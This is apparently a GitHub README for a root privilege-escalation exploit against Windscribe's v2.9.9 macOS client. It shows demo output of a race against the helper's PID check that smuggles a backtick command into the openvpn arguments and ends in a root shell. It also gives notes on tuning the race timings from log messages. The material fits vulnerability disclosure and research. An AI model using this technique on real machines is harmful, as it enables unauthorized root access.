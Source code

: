 ### About

This is the exploit for Windscribe's v2.9.9 macOS client.

Blogpost is here:
TODO


### Demo:
```
$ ./windscribe_attitude_check.py 
[+] Preparing
[+] Opening windscribe log file
[+] Launching exploit
[+] Try 0/100
[?] LOGLINE [120424 12:22:29:000] [service]	client app connected
[?] LOGLINE [120424 12:22:29:000] [service]	HelperSecurity::verifyProcessId: new PID 96804
[?] LOGLINE [120424 12:22:29:000] [service]	Invalid app/bundle name for PID 96804: '/Applications/Xcode.app/Contents/Developer/Library/Frameworks/Python3.framework/Versions/3.9/Resources/Python.app/Contents/MacOS/Python'
[?] LOGLINE [120424 12:22:29:000] [service]	client app disconnected
[+] Try 1/100
[?] LOGLINE [120424 12:22:29:000] [service]	client app connected
[?] LOGLINE [120424 12:22:29:000] [service]	HelperSecurity::verifyProcessId: new PID 96805
[?] LOGLINE [120424 12:22:29:000] [service]	Invalid app/bundle name for PID 96805: '/Applications/Xcode.app/Contents/Developer/Library/Frameworks/Python3.framework/Versions/3.9/Resources/Python.app/Contents/MacOS/Python'
[?] LOGLINE [120424 12:22:29:000] [service]	client app disconnected
[+] Try 2/100
[?] LOGLINE [120424 12:22:29:000] [service]	client app connected
[?] LOGLINE [120424 12:22:29:000] [service]	HelperSecurity::verifyProcessId: new PID 96806
[?] LOGLINE [120424 12:22:29:000] [service]	Invalid app/bundle name for PID 96806: '/Applications/Xcode.app/Contents/Developer/Library/Frameworks/Python3.framework/Versions/3.9/Resources/Python.app/Contents/MacOS/Python'
[?] LOGLINE [120424 12:22:29:000] [service]	client app disconnected
[+] Try 3/100
[?] LOGLINE [120424 12:22:30:000] [service]	client app connected
[?] LOGLINE [120424 12:22:30:000] [service]	HelperSecurity::verifyProcessId: new PID 96807
[?] LOGLINE [120424 12:22:30:000] [service]	Invalid app/bundle name for PID 96807: '/Applications/Xcode.app/Contents/Developer/Library/Frameworks/Python3.framework/Versions/3.9/Resources/Python.app/Contents/MacOS/Python'
[?] LOGLINE [120424 12:22:30:000] [service]	client app disconnected

...

[+] Try 61/100
[?] LOGLINE [120424 12:22:36:000] [service]	client app connected
[?] LOGLINE [120424 12:22:36:000] [service]	HelperSecurity::verifyProcessId: new PID 96865
[?] LOGLINE [120424 12:22:36:000] [service]	Resolved command: /Applications/Windscribe.app/Contents/Helpers/windscribeopenvpn --config /etc/windscribe/config.ovpn `/tmp/test.sh`
[+] Try 62/100
[?] LOGLINE [120424 12:22:36:000] [service]	client app disconnected
[+] PWNED :)
[+] Spawning shell

The default interactive shell is now zsh.
To update your account to use zsh, please run `chsh -s /bin/zsh`.
For more details, please visit https://support.apple.com/kb/HT208050.
bash-3.2#
```



### Instructions to debug the race timings:

The messages in `/Library/Logs/com.windscribe.helper.macos/helper_log.txt`
will tell us what's happening (in order):

- we connected
  "client app connected"
- our child was still running at the time of the pid check (good)
 "HelperSecurity::verifyProcessId: new PID 94943"
 - our child process terminated too early (PARENT_KILL_WAIT_TIME too small):
 "Failed to get app/bundle name for PID 95202"
- we crashed the helper process (our data killed the boost parser most likely)
 "Windscribe helper terminated"
- child execve() was too early (CHILD_POST_SEND_WAIT_TIME too small):
  "getsockopt(LOCAL_PEERID) failed (57)."
- child execve() was too late (CHILD_POST_SEND_WAIT_TIME too large):
  "Invalid app/bundle name for PID 94535: '/Applications/Xcode.app/Contents/Developer/Library/Frameworks/Python3.framework/Versions/3.9/Resources/Python.app/Contents/MacOS/Python'"
- we won the race:
  "Resolved command: /Applications/Windscribe.app/Contents/Helpers/windscribeopenvpn --config /etc/windscribe/config.ovpn `/tmp/test.sh`"

